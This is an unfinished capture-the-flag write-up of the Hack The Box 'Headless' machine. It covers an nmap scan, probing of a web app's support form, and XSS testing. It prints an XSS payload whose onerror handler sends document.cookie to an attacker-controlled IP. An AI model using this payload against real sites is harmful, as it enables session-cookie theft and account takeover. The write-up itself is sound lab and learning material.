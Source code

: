 # Headless
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/539cf778-31bc-4262-8da5-4bd3703218c7)


## Lessons Learned:
- sdas

## STEPS:
> PORT SCANNING

```
┌──(vreshco㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.8 --min-rate 1000
Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-25 00:10 PDT
Nmap scan report for 10.10.11.8
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Mon, 25 Mar 2024 07:08:09 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=3/25%Time=6601238F%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.11\.2\r\nDate:\x20Mon,\x2025\x20Mar\x202024\x2007:08:09\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:02799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Zfs;
SF:\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20
SF:lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20
SF:\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construction
SF:</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20body
SF:\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20
SF:'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20displ
SF:ay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justify-c
SF:ontent:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ali
SF:gn-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20h
SF:eight:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x200,\
SF:x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYPE\x
SF:20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\
SF:x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20respons
SF:e</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version
SF:\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20
SF:code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20u
SF:nsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.08 seconds
```

1. Based from the nmap results, we identified that the machine runs a web application at port 5000 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/749cf208-f661-4e93-a089-5632c00b64c9)


2. Long story short, after scanning for other subdomains, endpoints, or directories, it resulting to none.
3. Hence our interest is only at `/support` endpoint.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b83bc32-6e57-4ea7-9785-ddb8c7da02e4)


4. What could be interesting is the **message** section.
5. And noticed at the previous nmap results, there's a cookie header named `is_admin` with a set cookie.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6c9ebcc0-5dd2-44cf-8836-77d3cc31b7d9)


6. This could be a hint that the initial exploitation is client-side.
7. Let's try with simple XSS payload to validate whether the **message** textbox is indeed vulnerable with XSS.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1a26b02f-6a76-4c16-a420-3a0074e6dddf)


8. Interesting, it detects `<script>` tag usage then, let's use HTML entities.

> RESULT of using <img src=x onerror=alert('1')>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/09d37dd9-00dc-4215-9e16-90df99810102)


9. Seems we still got the warning, lastly let's identify which request header is vulnerable to XSS.
10. To test it, let's use burpsuite.

```txt
PAYLOAD:

<img src=x onerror="this.src='http://10.10.16.64:1337/?'+document.cookie; this.removeAttribute('onerror');"> 
```

10. Let's send it using burpsuite.
